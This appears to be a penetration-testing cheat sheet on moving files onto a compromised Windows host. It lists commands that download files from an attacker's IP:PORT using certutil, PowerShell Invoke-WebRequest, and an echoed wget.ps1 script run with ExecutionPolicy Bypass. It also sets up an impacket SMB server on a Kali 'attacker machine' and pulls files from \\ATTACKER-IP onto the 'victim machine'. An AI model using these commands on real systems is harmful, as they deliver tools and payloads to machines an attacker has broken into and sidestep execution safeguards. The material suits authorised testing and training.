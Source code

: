 # File Transfer

## Certutil.exe
```
certutil.exe -urlcache -split -f "http://IP:PORT/file" <output-file>
```

## Powershell
```
powershell Invoke-WebRequest "http://IP:PORT/file" -OutFile "<output-file>"
```

## Powershell wget file
```
echo $storageDir = $pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >> wget.ps1
echo $url = “http://IP:PORT/file” >> wget.ps1
echo $file = “<output-file>” >> wget.ps1
echo $webclient.DownloadFile($url,$file) >> wget.ps1
```
```
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```
## SMB
on attacker machine (kali)
```
python3 /usr/share/doc/python3-impacket/examples/smbserver.py <share-name> <share-path>
```
on victim machine
```
net use \\ATTACKER-IP\SHARE-NAME
copy \\ATTACKER-IP\SHARE-NAME\file <output-file>
